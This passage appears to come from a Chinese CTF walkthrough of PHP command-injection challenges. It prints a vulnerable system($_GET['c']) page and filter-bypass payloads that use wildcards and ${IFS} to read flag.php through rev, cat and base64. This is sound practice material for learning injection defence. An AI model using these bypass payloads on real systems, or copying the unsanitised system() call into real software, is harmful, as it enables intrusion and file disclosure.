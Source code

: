 #### rev

> rev 命令用于将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，以此类推。

payload:

```php
?c=rev${IFS}fla?.php
```



或者，可以直接在根目录下找到cat命令进行查询文件

> cat 命令在linux 的  /bin/cat  路径

payload:

```php
?c=/bin/?at${IFS}fla?.php
```





### [无字母数字webshell总结](https://xz.aliyun.com/t/8107#toc-0)





### web55

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

我们发现这一题过滤了字母，但是没有过滤数字



**方法一**：

我们知道linux有一个base64命令，在  /bin/base64   路径下

于是我们可以构造payload:

```php
?c=/???/????64 ????.???
```

使用通配符去匹配了   /bin/base64  flag.php

从而将 flag.php  网页进行base64编码后打印出来

